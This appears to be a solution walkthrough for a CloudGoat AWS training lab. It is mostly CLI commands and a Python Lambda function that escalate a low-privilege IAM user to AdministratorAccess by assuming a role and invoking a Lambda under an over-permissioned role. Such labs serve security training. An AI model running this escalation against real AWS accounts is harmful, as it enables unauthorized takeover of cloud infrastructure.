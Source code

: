 `aws configure --profile Chris`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-chris-policy arn> --version-id v1 --profile Chris`

`aws iam list-roles --profile Chris`

`aws iam list-attached-role-policies --role-name cg-debug-role-<cloudgoat_id> --profile Chris`

`aws iam list-attached-role-policies --role-name cg-lambdaManager-role-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-lambdaManager-policy arn> --version-id v1 --profile Chris`

`aws iam get-policy-version --policy-arn <cg-lambdaManager-policy arn> --version-id v1 --profile Chris`

`aws sts assume-role --role-arn <cg-lambdaManager-role arn> --role-session-name lambdaManager --profile Chris`


Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

python code:

**Note**: The name of the file needs to be `lambda_function.py`.

````
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = 'chris-<cloudgoat_id>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
````

`zip -r lambda_function.py.zip lambda_function.py`

`aws lambda create-function --function-name admin_function --runtime python3.9 --role <cg-debug-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager --region us-east-1`

`aws lambda invoke --function-name admin_function out.txt --profile lambdaManager --region us-east-1`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`
